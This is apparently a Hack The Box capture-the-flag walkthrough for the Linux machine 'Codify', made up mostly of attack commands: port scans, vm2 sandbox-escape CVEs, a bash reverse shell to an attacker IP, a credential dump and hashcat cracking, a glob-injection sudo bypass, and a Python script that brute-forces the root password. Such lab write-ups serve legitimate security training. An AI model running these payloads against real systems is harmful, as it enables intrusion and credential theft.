 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.239                # Fast full TCP port scan
nmap -p 22,80,3000 -sCV 10.10.11.239                  # Version & script scan on identified ports
head -1 /etc/hosts                                    # Confirm domain mapping to codify.htb
```

---

## 🧪 CVE-Based Exploitation

**Relevant CVEs for vm2 (v3.9.16):**

- [CVE-2023-32314](https://github.com/p4p1/vm2-cve-2023-32314)
- [CVE-2023-30547](https://github.com/p4p1/vm2-cve-2023-30547)
- [CVE-2023-37466](https://github.com/p4p1/vm2-cve-2023-37466)
- [CVE-2023-37903](https://github.com/p4p1/vm2-cve-2023-37903)

> Used payloads from these to gain command execution via sandbox escape.

---

## 🐚 Reverse Shell Access

```bash
# Listener on attacker box
nc -lvnp 443

# Payload sent via web shell
bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"

# Upgrade reverse shell
script /dev/null -c bash
stty raw -echo; fg
```

> Reverse shell lands as `svc` user.

---

## 🧼 Local Enumeration

```bash
ls -la                                        # Basic file listing
cd /home/joshua/                              # Access check for next user
ls /var/www                                   # Discover web app directories
ls editor/ contact/                           # Review contents of Node.js apps
cat index.js | grep 'app\.'                   # View all express routes in contact app
```

---

## 🧩 SQLite Enumeration

```bash
sqlite3 tickets.db                            # Open the database
.tables                                       # View all tables
.schema users                                 # Get table structure
select * from users;                          # Dump credentials
```

---

## 🔓 Cracking the User Hash

```bash
# Save hash
echo '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > joshua.hash

# Crack with hashcat (bcrypt mode 3200)
hashcat -m 3200 joshua.hash rockyou.txt
```

> Cracked to: `spongebob1`

---

## 🔑 [Privilege Escalation to Joshua](SSH)

```bash
su - joshua                                    # Use cracked password
sshpass -p spongebob1 ssh joshua@codify.htb    # Alternative SSH access
```

---

## 🔧 Privilege Escalation to Root

### 💡 Script Abused: `/opt/scripts/mysql-backup.sh`

```bash
sudo -l                                        # View sudo privileges
sudo /opt/scripts/mysql-backup.sh             # Run vulnerable backup script
```

#### 🧨 Bypass Password Check

```bash
echo "*" | sudo /opt/scripts/mysql-backup.sh  # Bypass using bash glob injection
```

> Works because `[[ $USER_PASS == $DB_PASS ]]` lacks quotes.

---

#### 🔭 Leak Root Password via Process Watch

```bash
# On attacker box
python -m http.server 80 -d /opt/

# On target
wget http://10.10.14.6/pspy64
chmod +x pspy64
./pspy64
```

> Watch for `-p<password>` appearing in `mysql` or `mysqldump` command.

---

#### 🧠 Brute-Force Root Password with Python

```python
# leak_password.py
import subprocess, string
leaked_password = ""
while True:
    for c in string.printable[:-5]:
        if c in '*\\%': continue
        print(f"\r{leaked_password}{c}", end="", flush=True)
        try:
            subprocess.run(f"echo '{leaked_password}{c}*' | sudo /opt/scripts/mysql-backup.sh", shell=True, timeout=0.3)
        except subprocess.TimeoutExpired:
            leaked_password += c
            break
    else: break
print(f"\nPassword: {leaked_password}")
```

---

## 🧙‍♂️ Root Access

```bash
su -                                           # With leaked/brute-forced password
cat /root/root.txt
```